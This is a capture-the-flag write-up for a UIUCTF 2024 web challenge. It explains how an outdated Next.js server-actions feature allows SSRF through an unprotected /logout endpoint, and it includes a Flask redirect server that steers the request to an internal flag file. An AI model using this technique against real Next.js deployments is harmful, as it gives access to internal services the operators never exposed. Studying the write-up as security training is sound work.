

# Web - Log Action
Solved by **Shen**\
Original Writeup: https://chuajianshen.github.io/2024/06/29/UIU2024/

## Question
I keep trying to log in, but it's not working :'(

## Solution
The application uses an older version of Next.js vulnerable to SSRF. Through research, a blog from Assetnote stands out as a reference.
https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps

Besides, the /login condition doesn't allow for SSRF exploitation directly due to admin login requirements.
```
"use server";
...
finally {
    if (!foundError) {
      redirect('/admin');
    }
  }
```

However, the /logout endpoint, which typically requires authentication, is not protected by the authentication middleware beyond paths containing /admin/. This allows unauthorized access to /logout. 
```
export const { auth, signIn, signOut } = NextAuth({
  ...authConfig,
  providers: [
    Credentials({
      async authorize(credentials) {
        const parsedCredentials = z
          .object({ username: z.string(), password: z.string() })
          .safeParse(credentials);

        if (parsedCredentials.success) {
          const { username, password } = parsedCredentials.data;
          // Using a one-time password is more secure
          if (username === "admin" && password === randomBytes(16).toString("hex")) {
            return {
              username: "admin",
            } as User;
          }
        }
        throw new CredentialsSignin;
      },
    }),
  ]
});
```

Hosted a Flask server to redirect request to http://backend/flag.txt with ngrok.

```
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

if __name__ == '__main__':
    app.run()

uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
```

Submitted a crafted request to the /logout endpoint that pointing to the Flask server. The server should redirect requests to  http://backend/flag.txt and allow us to retrieve the flag.


### Flag
`uiuctf{close_enough_nextjs_server_actions_welcome_back_php}`
